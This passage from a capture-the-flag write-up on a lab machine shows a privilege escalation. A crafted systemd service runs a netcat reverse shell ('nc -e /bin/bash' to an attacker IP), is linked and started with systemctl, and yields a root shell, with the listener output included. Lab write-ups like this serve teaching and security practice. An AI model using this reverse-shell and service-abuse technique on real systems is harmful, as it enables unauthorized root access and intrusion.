 ### Malicious Service

A service is defined by a `.service` file. The `systemctl` is used to
link it to `systemd`, and then used again to start the service. What the
service does is defined by the `.service` file.

[gtfobins](https://gtfobins.github.io/gtfobins/systemctl/) has a page
for `systemctl`, and it gives an example where a single command is
executed and output to a file in `tmp`. I'll modify that slightly to
give me a shell.



    pepper@jarvis:/dev/shm$ cat >0xdf.service<<EOF
    [Service]
    Type=notify
    ExecStart=/bin/bash -c 'nc -e /bin/bash 10.10.14.8 443'
    KillMode=process
    Restart=on-failure
    RestartSec=42s

    [Install]
    WantedBy=multi-user.target
    EOF



Now I use `systemctl` to link this service:



    pepper@jarvis:/dev/shm$ systemctl link /dev/shm/0xdf.service



Now start the service, with a `nc` listener ready to catch the shell:



    pepper@jarvis:/dev/shm$ systemctl start 0xdf



My listener gets a shell:



    root@kali# nc -lnvp 443
    Ncat: Version 7.70 ( https://nmap.org/ncat )
    Ncat: Listening on :::443
    Ncat: Listening on 0.0.0.0:443
    Ncat: Connection from 10.10.10.143.
    Ncat: Connection from 10.10.10.143:37160.
    id
    uid=0(root) gid=0(root) groups=0(root)



After upgrading my shell, I'll grab `root.txt`:



    root@jarvis:/root# cat root.txt 
    d41d8cd9...
